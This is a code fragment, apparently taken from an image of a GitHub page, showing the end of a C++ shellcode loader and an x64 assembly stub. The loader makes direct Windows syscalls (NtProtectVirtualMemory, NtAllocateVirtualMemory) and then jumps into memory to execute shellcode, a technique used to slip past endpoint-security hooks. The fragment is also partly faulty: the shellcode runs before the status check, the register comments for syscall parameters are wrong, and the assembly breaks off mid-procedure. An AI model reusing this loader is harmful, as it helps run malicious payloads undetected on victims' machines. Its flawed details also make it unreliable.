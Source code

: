 ```c
    NTSTATUS status = NtProtectVirtualMemory(GetCurrentProcess(), &baseAddress,&regionSize, protect, &oldProtect, syscallID);


    jumper((UINT64*)baseAddress); // Jump to execute shellcode


    if (NT_SUCCESS(status)) {
        std::cout << "Memory protection changed successfully." << std::endl;
    } else {
        std::cout << "NtProtectVirtualMemory failed. Status: 0x" << std::hex << status << std::endl;
    }

    // Free the allocated memory
    VirtualFree(baseAddress, 0, MEM_RELEASE);
    return 0;
}
```

**Assembly Component:**
```assembly
; syscall.asm
.code

PUBLIC NtProtectVirtualMemory
PUBLIC NtAllocateVirtualMemory
PUBLIC jumper

NtProtectVirtualMemory proc
    mov esi, [rsp+30h]              ; Syscall ID for NtProtectVirtualMemory - move from stack into register
    mov eax, esi                    ; move Syscall ID into RAX register before syscall instruction is called
    mov r10, rcx
	syscall
	ret
NtProtectVirtualMemory endp

NtAllocateVirtualMemory proc
    ; Parameters passed in registers:
    ; RCX: ProcessHandle
    ; RDX: BaseAddress
    ; R8: ZeroBits
    ; R9: RegionSize
    ; R10: AllocationType
    ; R11: Protect

    ; --- Set up the syscall number for NtAllocateVirtualMemory ---
    ; The syscall number for NtAllocateVirtualMemory is 0x18
    mov rax, 18h
    mov r10, rcx

    ; --- Call NtAllocateVirtualMemory syscall ---
    syscall

    ; --- Check the return value in RAX ---
    ; The return value in RAX will be an NTSTATUS code
    ; If RAX is not 0, there was an error
    test rax, rax
    jnz syscall_failed

    ; Memory allocation succeeded
    ; Your code here to use the allocated memory
```